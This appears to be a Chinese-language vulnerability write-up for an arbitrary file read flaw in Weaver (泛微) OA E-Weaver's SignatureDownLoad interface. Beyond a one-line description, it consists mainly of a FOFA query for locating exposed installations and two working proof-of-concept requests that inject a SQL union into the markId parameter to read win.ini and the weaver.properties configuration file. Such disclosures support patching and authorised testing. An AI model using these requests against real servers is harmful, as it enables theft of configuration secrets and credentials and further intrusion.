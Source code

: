 # 泛微OA E-Weaver SignatureDownLoad 任意文件读取漏洞

## 漏洞描述

泛微OA E-Weaver SignatureDownLoad接口存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器任意文件

## 漏洞影响

泛微OA E-Weaver

## FOFA

```
app="泛微-E-Weaver"
```

## 漏洞复现

![image-20220706133659005](./images/202207061336151.png)

验证POC

```
/weaver/weaver.file.SignatureDownLoad?markId=0%20union%20select%20%27C:/Windows/win.ini%27
```

![image-20220706133707852](./images/202207061337908.png)

```
/weaver/weaver.file.SignatureDownLoad?markId=0%20union%20select%20%27../ecology/WEB-INF/prop/weaver.properties%27
```

![image-20220706133717202](./images/202207061337932.png)